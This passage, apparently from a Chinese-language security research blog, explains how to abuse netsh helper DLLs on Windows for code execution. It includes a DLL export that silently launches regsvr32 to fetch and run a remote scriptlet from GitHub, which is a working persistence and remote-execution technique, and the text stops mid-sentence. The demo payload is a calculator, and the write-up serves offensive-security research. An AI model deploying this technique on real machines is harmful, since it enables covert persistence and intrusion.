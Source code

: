 ```netsh interface ip show config```

```
netsh add /?
The following commands are available:
Commands in this context:
add helper - Installs a helper DLL.
```


如果在此添加一个测试dll，结果会怎样呢？


## 0x02 编写helper DLL

每个helper DLL都需要包含导出函数InitHelperDll

在添加helper DLL后，每次netsh在初始加载的时候会调用该helper DLL中的导出函数InitHelperDll

InitHelperDll示例如下：


```
DWORD
WINAPI
InitHelperDll(
    DWORD      dwNetshVersion,
    PVOID      pReserved
)
{
    NS_HELPER_ATTRIBUTES attMyAttributes;

    attMyAttributes.guidHelper = g_MyGuid;
    attMyAttributes.dwVersion  = 1;
    attMyAttributes.pfnStart   = NetshStartHelper;
    RegisterHelper( NULL, &attMyAttributes );
    return NO_ERROR;
}
```



关于InitHelperDll的细节可参照如下链接：

https://msdn.microsoft.com/en-us/library/windows/desktop/ms708327(v=vs.85).aspx


在《Code Execution of Regsvr32.exe》曾具体介绍过如何为dll添加一个导出函数，所以在这里接着简单介绍一下：



新建c++工程，创建一个dll项目 在主文件添加:


```
DWORD WINAPI InitHelperDll(DWORD dwNetshVersion,PVOID pReserved)
{
	char *command="cmd.exe /c start regsvr32.exe /s /n /u /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll";
    WinExec(command,SW_HIDE); 
	return 0;
}
```

添加导出函数声明:
```